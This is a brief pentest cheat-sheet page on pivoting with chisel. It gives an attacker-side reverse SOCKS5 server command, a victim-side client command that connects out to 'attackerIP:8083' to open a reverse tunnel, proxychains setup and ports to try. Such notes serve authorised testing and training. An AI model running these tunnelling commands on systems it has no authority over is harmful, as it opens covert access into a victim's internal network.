 ```yaml
---
title: Chisel
parent: Pivot
layout: default
nav_order: 3
---
```


Attacker side:\
`./chisel server -reverse -p 8083 --socks5 -v`

Victim side:\
`chisel client attackerIP:8083 R:9050:socks`

Add to `/etc/proxychains4.conf` attacker side:\
`socks5 127.0.0.1 9050`

Use `proxychains4 -q command` to run (or add `-f` if got conf file at other location)

Ports to try: `443`, `1080`, `8080`,`4443`